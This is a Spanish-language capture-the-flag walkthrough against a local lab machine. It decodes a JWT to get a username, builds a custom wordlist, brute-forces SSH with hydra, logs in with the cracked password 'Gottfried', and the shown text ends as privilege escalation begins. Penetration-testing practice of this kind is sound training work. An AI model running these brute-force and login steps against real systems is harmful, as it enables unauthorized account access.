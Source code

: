 [JWToken](https://jwt.io/) Si ingresamos en esta web el **JWT** obtenemos lo siguiente:
```bash
{
  "sub": "1234567890",
  "user": "neptuno",
  "iat": 1516239022
}
```
### Credenciales Encontradas
- Usuario: `[ neptuno ]`
- Contraseña: `[  ]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos un potencial usuario lo usaremos Usaremos un diccionario personalizado en base al nombre que obtuvimos anteriormente, **( Johann Gottfried Galle )** 
Usamos nuestra herramienta en python para generar un diccionario personalizado en base a el usuario: **( Neptuno )**
```bash
genPasswd.py -i
```

Ingresamos los datos:
```bash
[+] Ingrese la información del objetivo (dejar en blanco si no aplica)

Nombre: Johann                                        
Apellido: Gottfried                     
Apodo: galle    
```
### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -l neptuno -P diccionario.txt -f ssh://172.17.0.2
```

Ahora tenemos las credenciales de acceso por **ssh** para este usuario:
```bash
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
```
### Intrusion
Iniciamos sesion por **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh neptuno@172.17.0.2 ( Gottfried )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
ls -la
```
